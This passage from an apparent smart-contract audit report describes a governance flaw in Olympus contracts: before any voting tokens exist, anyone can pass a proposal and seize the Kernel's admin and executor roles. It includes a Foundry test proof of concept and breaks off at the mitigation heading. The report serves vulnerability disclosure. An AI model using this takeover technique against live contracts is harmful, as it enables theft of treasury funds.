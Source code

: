 Before any `VOTES` are minted anyone can activate and execute an arbitrary proposal even with 0 votes cast. So an attacker can pass any proposal (i.e. change the `executor` + `admin` of the `Kernel`, gaining access to all permissioned functions and to funds held).

### [](#proof-of-concept-1)Proof of Concept

Checks on vote numbers made in `Governance.sol` at lines [L164](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L164), [217-218](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L217-218), [268](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L268) pass if `VOTES.totalSupply() == 0`. So, until no `VOTES` are minted, anyone can submit, activate and execute a proposal. There is no need to own or cast votes. This happens if `OlympusGovernance` is granted the `executor` role before any `VOTES` are minted (as in [Governance.t.sol](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/test/policies/Governance.t.sol)). The attacker can anticipate/frontrun the minting and pass a proposal to change both the `Kernel` `admin` and `executor`. Then he/she can upgrade malicious modules, steal funds from treasury…

A PoC was obtained modifying the `setUp()` of [Governance.t.sol](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/test/policies/Governance.t.sol) by keeping only what is before the minting of `VOTES` (up to [L83](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/test/policies/Governance.t.sol#L83) included). The test is as follows:

        function test_AttackerPassesProposalBeforeMinting() public {
    
            address[] memory users = userCreator.create(1);
            address attacker = users[0];
            vm.prank(attacker);
            MockMalicious attackerControlledContract = new MockMalicious();
    
            Instruction[] memory instructions_ = new Instruction[](2);
            instructions_[0] = Instruction(Actions.ChangeAdmin, address(attackerControlledContract));
            instructions_[1] = Instruction(Actions.ChangeExecutor, address(attackerControlledContract));
    
            vm.prank(attacker);
            governance.submitProposal(instructions_, "proposalName", "This is the proposal URI");
            
            governance.endorseProposal(1);
            
            vm.prank(attacker);
            governance.activateProposal(1);
            
            vm.warp(block.timestamp + 3 days + 1);
            
            governance.executeProposal();
    
            assert(kernel.executor()==address(attackerControlledContract));
            assert(kernel.admin()==address(attackerControlledContract));
    
    
        }

with

    contract MockMalicious {}

### [](#recommended-mitigation-steps-1)Recommended Mitigation Steps
